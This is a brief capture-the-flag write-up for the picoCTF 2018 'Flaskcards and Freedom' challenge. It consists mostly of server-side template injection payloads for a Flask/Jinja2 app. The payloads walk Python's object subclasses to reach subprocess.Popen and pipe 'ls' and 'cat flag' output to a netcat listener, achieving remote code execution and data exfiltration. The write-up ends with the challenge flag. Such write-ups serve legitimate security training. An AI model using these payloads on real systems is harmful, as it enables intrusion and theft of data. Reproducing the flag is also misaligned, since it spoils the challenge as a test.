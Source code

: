 > Flaskcards and Freedom - Points: 900 - (Solves: 150)
> There seem to be a few more files stored on the flash card server but we can't login. Can you? http://2018shell1.picoctf.com:56944 (link)

Valid payloads:
```
{{config}}

{{self}}

{{''.__class__.__mro__[1].__subclasses__()}}


# subrocess.Popen
{{''.__class__.__mro__[1].__subclasses__()[304]}}

{{''.__class__.__mro__[1].__subclasses__()[304]('ls | nc 0.0.0.0 4444', shell=True)}}


{{''.__class__.__mro__[1].__subclasses__()[304]('cat flag | nc 0.0.0.0 4444', shell=True)}}
```


Flag: `picoCTF{R_C_E_wont_let_me_be_85e92c3a}`


